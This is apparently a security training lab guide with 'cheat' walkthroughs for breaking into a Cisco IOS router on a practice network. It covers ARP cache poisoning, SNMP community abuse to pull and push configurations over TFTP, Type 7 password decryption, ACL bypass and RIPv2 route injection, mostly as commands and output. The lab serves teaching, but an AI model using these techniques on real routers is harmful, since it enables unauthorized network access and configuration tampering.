

Networking
In this module, break into the IOS router at the center of the network using TELNET and a locally configured username and password.
Exercise 1 : Grab the Complete Router Configuration and Decrypt Passwords

A partial router configuration is provided:
hostname router
!
interface Loopback0
ip address 192.168.3.1 255.255.255.255
!
logging host 192.168.1.4
!
snmp-server community RW 1
snmp-server host 192.168.1.4 version 2c
!
access-list 1 permit 192.168.1.4 log
access-list 2 permit 192.168.1.5 log
access-list 2 permit 192.168.4.1 log
!
line vty 0 4
access-class 2 in
transport input ssh telnet
Task 1
Using tshark or Wireshark, discover the SNMPv2 community string used in Traps sent to windows.seccon.ninja. The Get/Set community string uses the same password. Use ARP cache poisoning against the router to send the SNMPv2 trap to your kali box instead of windows.
Omar: Below is a cheat, can you please adapt?
root@bah-pod1-kali:~# host windows.seccon.ninja
windows.seccon.ninja has address 192.168.1.4
root@bah-pod1-kali:~# scapy
Welcome to Scapy (2.2.0)
>>> arpcachepoison('192.168.1.1','192.168.1.4')
.
Sent 1 packets.
.^Z
[1]+ Stopped sudo scapy
root@bah-pod1-kali:~# bg
[1]+ sudo scapy &
root@bah-pod1-kali:~# tshark -i eth1 -V udp port 162
Capturing on 'eth1'
Frame 1: 443 bytes on wire (3544 bits), 443 bytes captured (3544 bits) on interface 0
...
Simple Network Management Protocol
version: v2c (1)
community: *****
data: snmpV2-trap (7)
snmpV2-trap
request-id: 5114
error-status: noError (0)
error-index: 0
variable-bindings: 15 items
...
Task 2
Using the discovered SNMPv2 community string and the Cisco-Config-Copy-MIB, make the router upload its configuration via TFTP to kali.seccon.ninja. The uploaded configuration should be placed in /srv/tftp. A tool using Scapy is provided to help you with this. ( ~/labs/networking/get-cisco-cfg.py ) An access control list (ACL) configured on the router is blocking you--bypass it! Verify the TFTP server is running:
+ Click here for Hint
Help for get-cisco-cfg.py.
root@bah-pod1-kali:~/labs/networking# ./get-cisco-cfg.py -h
WARNING: No route found for IPv6 destination :: (no default route?)
Usage: get-cisco-cfg.py [options]
Options:
-h, --help show this help message and exit
-i IFACE, --iface=IFACE
Interface
-s SRCIP, --src=SRCIP
Source IP Address
-d DSTIP, --dst=DSTIP
Destination IP Address
-t TFTPIP, --tftp=TFTPIP
TFTP Server IP Address
-f CFG_FILE, --cfg=CFG_FILE
Configuration Filename
-c SNMPSTRING, --community=SNMPSTRING
SNMP Community Set String
++ Click here for Cheat
Running get-cisco-cfg.py
root@bah-pod1-kali:~/labs/networking# ./get-cisco-cfg.py -i eth1 -s 192.168.1.4 -d 192.168.1.1 -t 192.168.2.2 -f my-config -c
WARNING: No route found for IPv6 destination :: (no default route?)
Attempting to download IOS config from 192.168.1.1
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
Viewing TFTP configuration
root@bah-pod1-kali:~/labs/networking# more tftp/my-config
!
version 15.5
service timestamps debug datetime msec
service timestamps log datetime msec
service password-encryption
!
hostname router
!
boot-start-marker
boot-end-marker
!
!
...
Task 3
The administrator password is weakly encrypted with the Type 7 scheme. Decrypt the administrator password using the ciscodecrypttool. You'll have to build the tool using the provided Makefile. Here's an example of use:
root@bah-pod1-kali:~/labs/networking/ciscodecrypt# ./ciscodecrypt -p 0518030C22434048
password: seccon!
++ Click here for Cheat
Building ciscodecrypt
root@bah-pod1-kali:~/labs/networking/ciscodecrypt# make
cc -o ciscodecrypt ciscodecrypt.c
ciscodecrypt.c: In function ‘cdecrypt’:
ciscodecrypt.c:28:12: warning: incompatible implicit declaration of built-in function ‘strlen’ [enabled by default]
ciscodecrypt.c: In function ‘main’:
ciscodecrypt.c:140:44: warning: incompatible implicit declaration of built-in function ‘strlen’ [enabled by default]
Running ciscodecrypt
root@bah-pod1-kali:~/labs/networking# more tftp/my-config
root@bah-pod1-kali:~/labs/networking/ciscodecrypt# ./ciscodecrypt -p 0955411C54174711004D
password: <removed>
root@bah-pod1-kali:~/labs/networking/ciscodecrypt# ./ciscodecrypt -p 0818696F213B24352B
password: <removed>
...
Exercise 2 : Break into the IOS router at the center of the network using TELNET and the administrator username and password.
Task 1
The administrator is only allowed to log in from windows.seccon.ninja. Without logging into this machine, figure out how to bypass this. See the Bonus section below.
++ Click here for Cheat
Edit /srv/tftp/to-apply.cfg
root@bah-pod1-kali:~/labs/networking# nano /srv/tftp/to-apply.cfg
root@bah-pod1-kali:~/labs/networking# cat /srv/tftp/to-apply.cfg
!
no access-list 2
access-list 2 permit 192.168.1.4
access-list 2 permit 192.168.4.1
access-list 2 permit 192.168.2.2
!
! Don't forget end! :-)
end
.
Merge configuration
root@bah-pod1-kali:~/labs/networking# sudo ./merge-cisco-cfg.py -i eth1 -s 192.168.1.4 -d 192.168.1.1 -t 192.168.2.2 -f to-apply.cfg -c <removed>
WARNING: No route found for IPv6 destination :: (no default route?)
Attempting to upload IOS config to 192.168.1.1
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
Log in
root@bah-pod1-kali:~/labs/networking# ssh admin@router
NOTICE
Use of this system is RESTRICTED. Access is limited to individuals
authorized by Cisco SecCon...
Password:
...
router#
Bonus
Do this without changing the router's running configuration to bypass the configured ACL or using ARP cache poisoning.
++ Click here for Cheat
Discover the RIPv2 Password
root@bah-pod1-kali:~/labs/networking# tshark -i eth2 -V udp port 520
Capturing on 'eth2'
Frame 1: 106 bytes on wire (848 bits), 106 bytes captured (848 bits) on interface 0
Interface id: 0
...
Routing Information Protocol
Command: Response (2)
Version: RIPv2 (2)
Authentication: Simple Password
Authentication type: Simple Password (2)
Password: <removed>
Configure IP Address for Overridden Route
root@bah-pod1-kali:~/labs/networking# ip route
default via 192.168.1.1 dev eth1
169.254.169.254 via 192.168.0.100 dev eth0
192.168.0.0/24 dev eth0 proto kernel scope link src 192.168.0.104
192.168.1.0/24 dev eth1 proto kernel scope link src 192.168.1.2
192.168.2.0/24 dev eth2 proto kernel scope link src 192.168.2.2
192.168.4.248/29 via 192.168.0.254 dev eth0
seccon@pod-XX-kali:~/labs/networking$ sudo ip address add 192.168.1.5/32 dev eth2
seccon@pod-XX-kali:~/labs/networking$ sudo ip route add 192.168.3.1/32 via 192.168.2.1 src 192.168.1.5
seccon@pod-XX-kali:~/labs/networking$ ip route
default via 192.168.1.1 dev eth1
169.254.169.254 via 192.168.0.100 dev eth0
192.168.0.0/24 dev eth0 proto kernel scope link src 192.168.0.104
192.168.1.0/24 dev eth1 proto kernel scope link src 192.168.1.2
192.168.2.0/24 dev eth2 proto kernel scope link src 192.168.2.2
192.168.3.1 via 192.168.2.1 dev eth2 src 192.168.1.5
192.168.4.248/29 via 192.168.0.254 dev eth0
Inject RIPv2 Route
root@bah-pod1-kali:~/labs/networking# ./inject.py -h
WARNING: No route found for IPv6 destination :: (no default route?)
Usage: inject.py [options]
Options:
-h, --help show this help message and exit
-i IFACE, --iface=IFACE
Interface
-p PASSWORD, --password=PASSWORD
RIPv2 Password
-r ROUTE, --route=ROUTE
RIPv2 Prefix
-m MASK, --mask=MASK RIPv2 Subnet Mask
seccon@pod-XX-kali:~/labs/networking$ sudo ./inject.py -i eth2 -p -r 192.168.1.5 -m 255.255.255.255
WARNING: No route found for IPv6 destination :: (no default route?)
Attempting to inject RIPv2 route. It will last about 240 seconds
.
Sent 1 packets.
Log in
root@bah-pod1-kali:~/labs/networking# telnet 192.168.3.1
...
User Access Verification
Username: admin
Password:
...
router#